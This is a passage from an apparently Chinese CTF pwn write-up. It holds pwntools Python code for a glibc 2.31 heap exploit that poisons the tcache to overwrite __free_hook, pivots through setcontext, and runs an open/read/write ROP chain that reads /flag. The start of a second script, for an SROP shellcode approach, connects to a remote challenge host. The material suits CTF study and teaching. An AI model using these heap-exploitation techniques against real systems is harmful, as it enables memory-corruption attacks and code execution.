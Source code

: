 ```python

add(11, 0x20, b'a')

free(11)

free(10)

edit(10, p64(free_hook - 8))

add(12, 0x20, b'a')

payload = b'\x00'*8 + p64(mov_rdx_rdi_)

add(13, 0x20, payload)

add(14, 0xc0, (p64(heap_base + 0x1e20)*2 + p64(setcontext)*4).ljust(0xa0, b'\x00') + p64(heap_base + 0x640) + p64(ret))

 

open_ = libc_base + libc.sym['open']

read = libc_base + libc.sym['read']

write = libc_base + libc.sym['write']

puts = libc_base + libc.sym['puts']

 

orw = p64(rdi) + p64(flag) + p64(rsi) + p64(0) + p64(rdx) + p64(0) + p64(open_)

orw += p64(rdi) + p64(3) + p64(rsi) + p64(buf) + p64(rdx) + p64(0x30) + p64(read)

orw += p64(rdi) + p64(1) + p64(write)

orw += b'/flag\x00\x00\x00'

edit(2, orw)

 

free(14)

pr()

```
#### 通过SROP执行shellcode
```python
from pwn import *
from struct import pack
import binascii
import pp_pb2
from google.protobuf import message
import subprocess
elfname = './pwn'
libcname = './libc-2.31.so'
local = 1
if local:
    p = process(elfname)
else:
    p = remote('123.56.135.185', 23536)
elf = ELF(elfname)
```